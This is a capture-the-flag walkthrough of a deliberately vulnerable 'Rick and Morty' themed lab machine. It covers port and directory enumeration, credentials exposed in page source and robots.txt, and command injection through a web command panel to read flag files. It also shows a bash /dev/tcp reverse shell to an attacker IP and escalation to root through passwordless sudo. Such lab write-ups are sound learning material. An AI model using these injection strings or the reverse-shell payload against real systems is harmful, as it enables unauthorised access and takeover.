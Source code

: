 [[Writeup]]
![[Pasted image 20250520190604.png]]

# Enumeration
```
┌──(dd0x㉿kali)-[~]
└─$ nmap -p- --min-rate 10000 10.10.63.213                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 07:20 EDT
Nmap scan report for 10.10.63.213
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds

┌──(dd0x㉿kali)-[~]
└─$ nmap -p 22,80 -sCV 10.10.63.213                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 07:21 EDT
Nmap scan report for 10.10.63.213
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:55:6e:de:98:b3:8d:e7:4a:81:6a:1e:14:6a:9a:8a (RSA)
|   256 12:34:a2:f0:a1:0f:5a:10:26:5a:86:87:15:b1:ab:a8 (ECDSA)
|_  256 6f:42:9e:10:95:4e:a9:9e:39:6b:78:83:70:d1:67:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.15 seconds

```

Checking port 80  
![[Pasted image 20250520192838.png]]
simple website
upon checking the source code
![[Pasted image 20250520192848.png]]
there is a html comment about the username
```
<!--

Note to self, remember username!

Username: R1ckRul3s

-->
```

Now lets enumerate subdirectories
```
┌──(dd0x㉿kali)-[~]
└─$ gobuster -w ~/Downloads/common.txt dir -u http://10.10.63.213/ 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.63.213/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Downloads/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.63.213/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

as we check the robots.txt heres a word which might a clue for password along that i gathered the username.
```
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

Now, i log in with the credentials to from the `/login.php`.
![[Pasted image 20250520200444.png]]

From the website the commands which shows a command panel then the other tabs
	Potions, Creatures, Potions and Beth Clone Notes cannot be accessed
![[Pasted image 20250520200611.png]]

Along with the command panel i will try some commands:
![[Pasted image 20250520200712.png]]
i tried `ls` which appears of files and i want to read that Sup3rS3cretPickl3Ingred.txt file which returens that the command is disabled
![[Pasted image 20250520200814.png]]

Tested this command
```
test ; cat Sup3rS3cretPickl3Ingred.txt
test ; sudo cat Sup3rS3cretPickl3Ingred.txt
```

Another way to get the first flag
```
- _tac Sup3rS3cretPickl3Ingred.txt_
- _less Sup3rS3cretPickl3Ingred.txt_
- _strings Sup3rS3cretPickl3Ingred.txt_
- _grep . Sup3rS3cretPickl3Ingred.txt_
- _cp Sup3rS3cretPickl3Ingred.txt /dev/stdout_
- _while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt_
```

![[Pasted image 20250520201035.png]]
Now, I got the first flag which i copied the `Sup3rS3cretPickl3Ingred.txt` and paste from the URL.

# Sencond flag
to get the second flag there is a clue 
![[Pasted image 20250521154407.png]]
So i looked at the home direcotry which it appears rick and ubuntu from browsing the rick there is a folder named `second ingredient` i tried to open it theres no file inside
![[Pasted image 20250521154546.png]]
For the ssecond flag with the command sudo less which i will read the files inside the second ingredient directory
![[Pasted image 20250521154338.png]]
`sudo less /home/rick/second\ ingredient`

# Another Way to Access
with the help of revshells i gain access to the terminal by using this payload
![[Pasted image 20250521155610.png]]
Setting up your netcat
![[Pasted image 20250521155624.png]]

then paste this payload to the command panel
`bash -c 'bash -i >& /dev/tcp/10.23.62.59/9001 0>&1'

Now you have access the terminal
![[Pasted image 20250521155645.png]]

## 3rd Ingredient
To get the 3rd Ingredient another thing is to get the root credentials
![[Pasted image 20250521155737.png]]
Checking at the following commands there is this helps `NOPASSWD: ALL` means you can go sudo commands without password

![[Pasted image 20250521155937.png]]
with this command i am now the root
![[Pasted image 20250521160420.png]]
